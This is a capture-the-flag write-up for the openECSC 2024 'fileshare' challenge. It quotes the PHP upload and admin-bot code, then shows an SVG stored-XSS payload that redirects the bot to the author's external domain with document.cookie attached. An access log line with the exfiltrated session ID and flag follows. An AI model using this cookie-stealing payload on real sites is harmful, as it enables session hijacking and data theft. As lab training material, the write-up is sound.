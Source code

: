 # fileshare

## Description

```
You can now share your files for free thanks to our new disruptive technology!

Site: https://fileshare.challs.open.ecsc2024.it
```

## Provided Files

- `fileshare.zip`

## Solve Process

We can firstly observe the provided source code, which shows us where the flag is located.

```php
if (isset($_POST['email']) || isset($_POST['fileid']) || isset($_POST['message'])) {
    
    $fileid = $_POST['fileid'];
    if (preg_match('/^[a-f0-9]{30}$/', $fileid) === 1) {

        $url = 'http://' . getenv('HEADLESS_HOST');
        $chall_url = 'http://' . getenv('WEB_DOM');
        $act1 = array('type' => 'request', 'url' => $chall_url);
        $act2 = array('type' => 'set-cookie', 'name' => 'flag', 'value' => getenv('FLAG'));
        $act3 = array('type' => 'request', 'url' => $chall_url . '/download.php?id=' . $fileid);
        
        $data = array('actions' => [$act1, $act2, $act3], 'browser' => 'chrome');
        $data = json_encode($data);

        $options = array(
            'http' => array(
                'header'  => "Content-type: application/json\r\n" . "X-Auth: " . getenv('HEADLESS_AUTH') . "\r\n",
                'method'  => 'POST',
                'content' => $data
            )
        );

        $context  = stream_context_create($options);
        $result = file_get_contents($url, false, $context);

        if ($result === FALSE) {
            echo '<div class="alert alert-danger" role="alert">Sorry, there was an error sending your message.</div>';
        } else {
            echo '<div class="alert alert-success" role="alert">Thank you, we are taking care of your problem!</div>';
        }
```

Okay so we're dealing with a headless browser again and the flag is inside a cookie. Additionally, this essentially lets us open a file of our choice based on the files ID.

Lets examine a bit further.

```php
if( isset($_FILES['file']) ) {
    $target_dir = "/uploads/";

    $fileid = bin2hex(random_bytes(15));
    $target_file = $target_dir . $fileid;

    $type = $_FILES["file"]["type"];
    // I don't like the letter 'h'
    if ($type == "" || preg_match("/h/i", $type) == 1){
        $type = "text/plain";
    }

    $db = db_connect();
```

This is the file upload endpoint, which is always very interesting because it also lets us show and download the files, so this could point to a `XSS` vulnerability.

Since `html` is seemingly filtered out here, we can think of other payloads, such as `.svg`. Let's craft a payload that calls my domain with the `document.cookie` specifier embedded, so I get all the cookies the request has currently set.

```svg
<svg version="1.1" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" style="">
  <script type="text/javascript">
    window.location.replace(`https://k1f0.dev/${encodeURI(document.cookie)}`)
  </script>
</svg>
```

After uploading this payload to the upload endpoint, clicking "Show" yields me this.

```
https://fileshare.challs.open.ecsc2024.it/download.php?id=a164fe7bbedb39cae5098b4c28b1d6
```

And above link redirects me to my actual page, so we know a script execution takes place and a request is successfully made.

We now just need to input it as a support request, using the file id `a164fe7bbedb39cae5098b4c28b1d6` from above

And after submitting it and watching my NGINX access log, we do actually get a request.

```
- - "GET /PHPSESSID=21481e27e0323ca4811c28684a34ad84;%20flag=openECSC%7Bwhy_w0uld_u_sh4re_th1s%7D HTTP/1.1" 404 972 "https://fileshare.challs.open.ecsc2024.it/" "chrome-headless-agent"
```

And that is a solve.
